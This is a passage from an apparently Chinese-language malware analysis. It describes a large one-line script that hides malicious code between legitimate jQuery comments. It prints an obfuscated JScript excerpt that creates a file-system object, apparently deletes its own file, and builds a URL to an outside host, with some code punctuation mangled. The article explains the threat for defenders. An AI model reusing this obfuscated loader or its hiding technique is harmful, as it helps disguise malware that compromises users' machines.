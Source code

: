 该样本是由一位匿名的研究人员与我分享的，在这里要感谢这位研究人员。



## 三、初步分析

在查看脚本的文件大小后，我们发现其超过90KB，这个脚本相对比较大。但打开文件后，我们只看到了一行很长的代码。在美化代码时，开发者很明显地将恶意代码放在了两个合法的注释代码之间。下面是部分恶意代码的节选。

```
/Comment that contains code from jQuery/
try `{`
var rhepu = getAXO((“w”, “b”, “S”) + (“f”, “I”, “u”, “h”, “B”, “c”) + (“m”, “O”, “r”) + (“Q”, “z”, “i”) + (“m”, “q”, “X”, “p”, “r”, “p”) + [“v”, “I”, “S”, “t”, “l”][(949 - 946)] + (“e”, “b”, “I”, “y”, “i”) + (“e”, “g”, “S”, “T”, “Z”, “n”) + [“o”, “g”, “u”][(-531 + 532)] + “.” + [“F”, “E”][(200 - 200)] + “i” + “l” + (“m”, “V”, “U”, “c”, “e”) + (“b”, “n”, “o”, “S”) + “y” + (“o”, “q”, “A”, “c”, “J”, “s”) + (“m”, “k”, “G”, “t”) + (“v”, “o”, “r”, “e”) + (“k”, “w”, “m”) + [“O”, “n”][(899 - 899)] + “b” + “j” + “e” + “c” + [“t”, “N”][(290 - 290)]);
rhepu“D” + “e” + (“W”, “y”, “F”, “j”, “j”, “l”) + (“P”, “u”, “G”, “G”, “a”, “e”) + [“m”, “R”, “z”, “o”, “t”, “E”][(-393 + 397)] + [“n”, “B”, “e”, “z”, “e”][(668 - 666)] + “F” + (“d”, “f”, “i”) + (“u”, “i”, “F”, “a”, “m”, “l”) + [“e”, “F”, “T”, “e”][(-643 + 643)] + (“B”, “C”, “i”, “S”) + “c” + (“T”, “c”, “H”, “p”, “Q”, “r”) + “i” + (“m”, “u”, “p”) + [“q”, “t”, “A”, “M”, “r”, “K”, “a”][(-185 + 186)]][
[“m”, “P”, “S”, “K”, “O”, “O”][(-757 + 759)] + (“c”, “b”, “c”) + [“r”, “g”][(-321 + 321)] + [“D”, “v”, “H”, “i”, “d”, “a”, “A”][(847 - 844)] + (“C”, “d”, “k”, “p”) + [“i”, “t”, “p”][(115 - 114)] + (“R”, “H”, “z”, “d”, “r”, “F”) + “u” + “l” + “l” + “N” + “a” + “m” + (“Q”, “m”, “W”, “W”, “e”)
], true);
`}` catch (e) `{``}`
var zuqyljaah = (“u”, “T”, “k”, “h”) + [“t”, “G”, “H”, “M”, “X”, “n”][(-130 + 130)] + [“t”, “E”, “r”, “T”][(-854 + 854)] + “p” + “:” + “/“ + “/“ + [“6”, “B”][(-689 + 689)] + “0” + (“s”, “M”, “a”, “e”) + “a” + [“s”, “t”, “H”, “y”, “p”, “0”, “b”][(395 - 390)] + [“d”, “2”, “P”, “m”][(-362 + 363)] + [“H”, “c”, “W”, “6”, “w”][(874 - 871)] + (“X”, “s”, “0”) + “.” + “a” + (“Y”, “U”, “Y”, “J”, “s”, “u”) + “t” + (“v”, “E”, “k”, “t”, “G”, “h”) + “.” + [“G”, “H”, “c”, “q”][(-698 + 700)] + (“t”, “U”, “X”, “o”) + (“u”, “p”, “d”) + “i” + “n” + [“g”, “u”, “Y”][(-279 + 279)] + (“L”, “D”, “e”, “t”, “b”) + (“L”, “T”, “i”) + “t” + “.” + “c” + “o” + “.” + (“u”, “R”, “u”, “i”) + “n” + “/“ + [“P”, “v”, “x”, “s”, “r”, “c”, “r”][(-350 + 353)] + (“j”, “G”, “u”) + [“j”, “R”, “b”, “q”][(312 - 310)] + (“N”, “l”, “k”, “N”, “R”, “m”) + (“I”, “K”, “i”) + (“W”, “o”, “j”, “e”, “t”) + “.” + “a” + [“E”, “z”, “k”, “f”, “s”, “U”][(-412 + 416)] + [“m”, “j”, “v”, “p”, “g”][(-354 + 357)] + (“o”, “s”, “w”, “x”);
var tid = [“5”, “O”][(-765 + 765)] + (“R”, “m”, “l”, “f”, “z”, “0”) + (“L”, “C”, “g”, “g”, “0”);
var r8h = [“S”, “g”, “a”, “L”, “r”][(202 - 200)] + “a” + (“c”, “H”, “L”, “m”, “d”) + “2” + “8” + (“q”, “y”, “O”, “0”) + (“y”, “Y”, “a”, “o”, “a”) + (“x”, “B”, “p”, “p”, “9”);
var gudel6 = [];
gudel6(“A”, “F”, “p”) + “u” + “s” + [“A”, “u”, “h”, “m”][(584 - 582)]](tid);
var kbiag = womzyjeptfu();
var jybspikivsu = kbiag + (224 - (-9776));
while (kbiag &lt; jybspikivsu) `{`
kbiag = womzyjeptfu();
this[(“T”, “a”, “w”, “V”, “W”) + [“h”, “S”, “G”, “I”, “z”][(-666 + 667)] + (“x”, “C”, “u”, “q”, “c”) + [“r”, “Y”][(-326 + 326)] + [“S”, “t”, “i”, “g”, “f”, “Y”][(-190 + 192)] + (“b”, “q”, “p”) + “t”]“S” + “l” + (“u”, “C”, “e”) + “e” + [“p”, “U”, “s”, “E”, “R”][(-375 + 375)]));
`}`
//More code is omitted due to brevity
/More jQuery code that is commented out/
```
